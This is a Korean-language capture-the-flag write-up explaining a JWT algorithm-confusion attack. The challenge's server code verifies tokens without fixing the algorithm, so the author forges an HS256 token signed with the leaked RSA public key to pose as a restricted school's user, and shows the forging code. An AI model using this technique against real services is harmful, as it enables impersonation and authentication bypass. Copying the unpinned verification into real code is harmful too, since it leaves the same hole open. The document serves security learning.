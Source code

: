 ### Step 2 : JWT 토큰 생성

이때 우리가 로그인한 JWT 토큰은 아래와 같이 쿠키에 token이라는 값으로 저장되어 있음

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpYXQiOjE2NDkzODU0OTAsImV4cCI6MTY0OTM4OTA5MCwidXNlcm5hbWUiOiJhc2RmIiwic2Nob29sIjoiYXNkZiJ9.WvgiDy3n2BaOW4MjCmDSi3zV0S6YnUylbEUZGoGFgv90XnR3gU9nONDXr1cpeVvXsYLEcWWqyknkw_iEVuUqULiY4jRvZk9KvVHPfahL4qJnu1_BkGcLe0xYgANBdngUDIlOrS3SuoFn6Pu_-kiDITLgBMaH_0RHJsggSAgCqWs
```

문제를 자세히 보진 않았지만, 드림대학교로 가입하면 드림대학교 게시판에 flag가 있을 것 같다.
근데 드림대학교 가입은 폼에서 막고 있으니, 이를 우회하기 위해 드림대학교 정보가 담긴 JWT 토큰을 만들어야겠다.
제시된 서버 코드에서 JWT 토큰 관련 코드는 다음과 같다. 

```python
# auth.py
class JwtAuthenticator:
    def generate(self, user: User) -> str:
        return (
            jwt.encode(
                {
                    "iat": datetime.datetime.utcnow(),
                    "exp": datetime.datetime.utcnow() + datetime.timedelta(hours=1),
                    "username": user.username,
                    "school": user.school_name,
                },
                self.private_key,
                algorithm="RS256",
            )
        ).decode()

    def decode(self, token: str) -> tuple[str, str]:
        payload = jwt.decode(token, self.public_key, options={"verify_signature": True})
        return str(payload["username"]), str(payload["school"])
```

다른 서명 방식과 동일하게, private_key로 암호화한 토큰을 public_key로 검증하는 방식이다.
앞서 config에서 leak된 정보 중에서 AUTH_PUBLIC_KEY가 있다.
일반적으로 토큰을 만들기 위해 필요한건 AUTH_PRIVATE_KEY인데, 이걸 우째 우회하면 좋을까..

여기서 예술적인 포인트가 등장한다. generate()에서는 jwt.encode(..., algorithm="RS256")와 같이 암호 알고리즘을 지정해주는 반면, jwt.decode()에서는 알고리즘을 지정해주지 않는다는 것이다..!
이게 무슨 문제가 되냐면, jwt.encode(key=public_key, algorithm="대칭키알고리즘")으로 JWT 토큰을 생성하면
self.decode()를 할때 key에 public_key를 넣으면 그대로 디코딩이 되어 JWT 토큰으로 동작할 수 있게 된다. 정말 놀라운 방법이다. 나는 애초에 JWT에서 지원하는 암호 방식이 다양한지도 몰랐는데, 문제에서 제시된 RS256은 RSA+SHA256 방식의 비대칭키 알고리즘이고 다른 지원 방식 중에서 HS256은 대칭키 알고리즘이다.. 이러면 우리가 원하는 대칭키 알고리즘으로, 알고있는 서버의 공개키를 넣어 직접 만든 JWT 토큰을 서버에 전달하면 놀랍게도 서버는 이를 인식해서 동작한다는 것이다.

```python
token = jwt.encode(
    {
        "username": USERNAME,
        "school": SCHOOL,
        "iat": datetime.datetime.utcnow(),
        "exp": datetime.datetime.utcnow() + datetime.timedelta(hours=10),
    },
    pubkey,
    algorithm="HS256",
).decode()
```
